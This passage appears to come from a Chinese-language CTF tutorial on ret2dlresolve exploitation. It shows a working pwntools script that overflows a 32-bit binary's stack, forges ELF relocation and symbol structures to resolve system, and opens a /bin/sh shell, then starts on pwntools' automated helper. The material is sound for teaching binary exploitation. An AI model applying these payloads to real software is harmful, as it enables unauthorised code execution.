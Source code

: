 ```python
    output_log = '{} => {}'.format(name, hex(addr))
    all_logs.append(output_log)
    success(output_log)

bss = elf.bss()
base_addr = bss + 0x800
leave_ret = 0x0804915F
start_resolve = 0x8049030
rel_plt = elf.get_section_by_name('.rel.plt').header.sh_addr
dynsym = elf.get_section_by_name('.dynsym').header.sh_addr
dynstr = elf.get_section_by_name('.dynstr').header.sh_addr
r_info = (((base_addr + 0x20 - dynsym) // 0x10) << 8) | 0x7
st_name = base_addr + 0x30 - dynstr

leak_info('base_addr', base_addr)
leak_info('rel_plt', rel_plt)
leak_info('dynsym', dynsym)
leak_info('dynstr', dynstr)

payload = b'a'*0x108 + p32(base_addr-4) + p32(elf.plt['read']) + p32(leave_ret) + p32(0) + p32(base_addr) + p32(0x200)
sh.send(payload)

payload = p32(start_resolve) + p32(base_addr + 0x18 - rel_plt) + p32(0xdeadbeaf) + p32(base_addr + 0x100) + p32(0) + p32(0)
payload += p32(0x804C010) + p32(r_info) # fake Elf32_Rel结构体
payload += b'a' * 0x0 # 此处我的base_addr已经以0xc对齐，因此没有改动。若不对齐，需要以无关字符填充，使得下面这一行是0xc对齐的
payload += p32(st_name) + p32(0) + p32(0) + p32(0x12) # 4字节的st_name， 4字节的st_value， 4字节的st_size，和其他
payload += b'system\x00' # 伪造的dynstr字符串
payload = payload.ljust(0x100, b'\x00') + b"/bin/sh\x00"
sh.send(payload)
sh.interactive()
```

## 0x07. 自动化攻击

有个小插曲，笔者本来想着学完之后来自己实现一个自动化的`dlresolve`，没想到其实`pwntools`自带该功能。无妨，原理在很多地方都会用到的。

而对于纯粹的`Partial relro`的`32`位栈溢出`dlresolve`，可以用如下方式来完成自动化攻击。

而用`pwntools`的写法是基于`Ret2dlresolvePayload`函数来的，总体上也分为两种写法。

首先是用`pwntools`的`ROP`模块，而我们并不常用该模块（笔者基本只在`ret2dlresolve`中看到过该模块）。但为了能方便地进行`ret2dlresolve`，我们也可以学习一下。

### ROP模块

使用`ROP`模块只需要获得两个信息：

- 偏移量。这是指的溢出的地方到函数的返回地址的偏移量，而不是到`ebp`。
- 读取长度。这是指的是漏洞程序原本可以读入的最大长度。

举个例子，程序为如下形式：
